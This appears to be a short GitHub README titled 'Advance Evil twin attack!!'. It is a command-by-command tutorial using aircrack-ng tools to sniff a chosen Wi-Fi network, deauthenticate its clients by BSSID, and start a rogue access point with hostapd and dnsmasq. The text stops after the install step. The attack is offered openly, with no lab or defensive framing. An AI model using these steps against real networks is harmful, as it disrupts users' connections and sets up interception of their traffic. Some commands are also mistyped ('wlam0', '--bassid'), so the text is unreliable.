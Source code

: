 # Advance Evil twin attack!!

<h3> Put wireless card in monitor mode </h3>

```bash
airmon-ng start wlam0
```
 
  ### Testing the packet injection 
  
  ```bash
  aireplay-ng --test wlan0mon
  ```
  ### sniffing wireless network
   #### Scanning all the networks avalible
  
  ```bash
  airodump-ng wlan0mon
  ```
  ### sniff packs 
  
  ```bash
  airodump-ng --bassid 04:B0:E7:EC:34:24 -c 6 -w capture wlan0mon
  # this will start capturing packs in folder called capture
  ```
  
  ### inject packets in target network 
  ```bash
  aireplay-ng --deauth 10 -a 04:B0:E7:EC:34:24 wlan0mon
  ```
  ### To see the packets captured
  ```bash
  wireshark capture.cap
  ```
  
  # Setp 1 Create access point
  
  
  - Install dnsmasq hostapd
  
  ```
        apt install dnsmasq hostapd
  ```     
  
  
  
  
  
